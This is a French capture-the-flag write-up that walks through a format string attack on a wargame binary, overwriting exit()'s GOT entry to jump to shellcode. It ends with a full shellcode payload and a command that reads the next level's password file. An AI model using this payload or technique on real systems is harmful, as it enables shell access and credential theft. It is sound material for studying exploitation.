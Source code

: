 On a acces a un executable qui fgets 100 octets sur l'entree standard dans un
buffer stack, puis qui les interprete comme une chaine de caracteres pour passer
toutes les majuscules en minuscules. L'executable passe ensuite le buffer a un
printf, avant d'appeler exit().

Notre attaque seras donc une format string attack pour changer l'entree GOT de
exit(), vers un shellcode. Pour eviter que l'instruction 'push eax' de notre
shellcode, qui termine la chaine de caractere "//bin/sh" dans la stack, et dont
l'opcode est 0x50, ne soit transformee en 0x70 par le passage en minuscules (car
0x50 correspond a 'P'), on passe un octet 0 apres notre chaine d'attaque de
format, juste avant le shellcode.

Avec un objdump -R, on trouve l'addresse de l'entree GOT de exit: 0x080497e0

On va la passer 2 fois dans le buffer, pour ecrire les octets 2 par 2, car les
addresses stack commencent par 0xffff.... et ecrire en 1 fois prendrait 4
milliards de caracteres (litteralement).

Pour trouver l'addresse de notre shellcode en memoire, on va deja devoir
trouver la difference entre les addresses gdb et celles de l'execution. On passe
des %p au printf pour lui faire afficher la memoire, et on cherche des addresses
stack a comparer entre gdb et l'execution normale.

	$ echo "%p %p %p %p %p %p %p %p %p %p" > /tmp/in
	$ cat /tmp/in | ./level05
	$ gdb level05
	(gdb) r < /tmp/in

En comparant les addresses on trouve que la difference entre les addresses gdb
et exec normale est de 32 octets de plus pour l'execution normale. On trouve
l'addresse du buffer dans gdb: 0xffffd698
On ajoute 0x20 pour obtenir l'addresse du buffer en execution normale: 0xffffd6b8

On trouve avec des %p que l'argument positionnel printf pour tomber dans le
buffer est de 10 (et 11 pour tomber 4 octets dans le buffer).
Notre chaine de format string attack seras donc:
> [addresse GOT][addresse GOT + 4][nombre des 2 1ers octets addr shellcode]%10$n[nombre des 2 derniers octets addr shellcode - octets deja affiches]%11$n

- les addresses font 4 octets chacunes (8 octets),
- le padding se fait avec "%12345x" les 2 fois, soit 2*7 octets (14 octets)
- les %n sont "%10$n" et "%11$n" soit 2*5 octets (10 octets)
- l'octet nul pour separer le shellcode de la chaine d'attaque ajoute 1 octet

Notre chaine d'attaque fait donc au total 33 octets. On ajoute 33 a l'addresse
du buffer en execution normale pour obtenir l'addresse de notre shellcode en
memoire: 0xffffd6d9

On peux maintenant trouver le nombre d'octets a mettre dans le padding pour
ecrire en memoire precisement 0xffffd6d9:
-1ere moitie: On enleve 8 pour les 8 octets des 2 addresses
0xd6d9 - 0x8 = 54993 en decimal
-2eme moitie: On enleve le nombre d'octets deja affiches (0xd6d9)
0xffff - 0xd6d9 = 10534 en decimal

Notre chaine d'attaque complete seras donc:  
> [chaine pour la GOT override (ligne 37)][octet 0][shellcode][padding pour satisfaire le fgets]

	$ [copie colle du contenu de fill_script_command]
	$ echo -en "\xe0\x97\x04\x08\xe2\x97\x04\x08%54993x%10\$n%10534x%11\$n\x00\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"$(/tmp/fill 50) > /tmp/in
	$ (cat /tmp/in; echo "cat /home/users/level06/.pass") | ./level05
